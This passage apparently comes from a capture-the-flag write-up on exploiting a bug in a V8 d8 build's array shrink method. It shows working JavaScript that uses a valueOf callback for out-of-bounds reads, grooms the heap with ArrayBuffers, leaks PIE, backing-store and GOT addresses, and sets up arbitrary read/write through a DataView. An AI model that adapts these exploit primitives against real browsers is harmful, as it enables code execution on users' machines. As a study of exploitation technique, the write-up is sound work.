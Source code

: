 I confirmed this by doing `%DebugPrint(arrs[0])` and seeing that the `backing_store` pointer matched the one that was leaked.


```
DebugPrint: 0x234e00280021: [JSArrayBuffer] in OldSpace
 - map: 0x234e001c87b9 <Map[56](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x234e001c894d <Object map = 0x234e001c87e1>
 - elements: 0x234e00000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - cpp_heap_wrappable: 0
 - backing_store: 0x555557ef24d0 <--- matches pointer from leak
 - byte_length: 8
 - max_byte_length: 8
...
```

According to [this](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) we can overwrite the pointer and get arb/read write by wrapping it in a DataView:

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { f64_buf[0] = val; return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); }

function itof(val) { u64_buf[0] = Number(val & 0xffffffffn); u64_buf[1] = Number(val >> 32n); return f64_buf[0]; }

let arr = new Array(2000).fill(1.1);
evil = { valueOf() { for (let i = 0; i < 1999; i++) { arr.pop(); } return 1999; } };
arr.shrink(evil)

let arrs = new Array()

// allocate until we see the code pointer in idx 25
let idx_25 = ftoi(arr[25]);
while ((idx_25 & 0xfffn) != 0x830n) {
  arrs.push(new ArrayBuffer(8));
  idx_25 = ftoi(arr[25]);
}

// allocate until we see something that looks sorta like a heap pointer in idx 31
let idx_31 = ftoi(arr[31]);
while ((idx_31 & 0xf000n) != 0x5000n && (idx_31 & 0xf000n) != 0x6000n) {
  arrs.push(new ArrayBuffer(8));
  idx_31 = ftoi(arr[31]);
}

// Leak the code pointer
let pie_leak = ftoi(arr[25]);
console.log('PIE Leak: 0x' + pie_leak.toString(16));

// Calculate base address of d8 binary
let pie_base = pie_leak - BigInt(0x1174830);
console.log('PIE Base: 0x' + pie_base.toString(16));

// Leak the backing_store pointer of the arrs[0] DataView
let backing_store = (ftoi(arr[30]) >> 32n) + ((ftoi(arr[31]) & 0xffffffffn) << 32n);
console.log('backing_store: 0x' + backing_store.toString(16));

let dataview = new DataView(arrs[0]);

// Address in GOT we want to leak
got_pkey_set = pie_base + BigInt(0x28ab9d8);
console.log("got_pkey_set: " +  got_pkey_set.toString(16));
```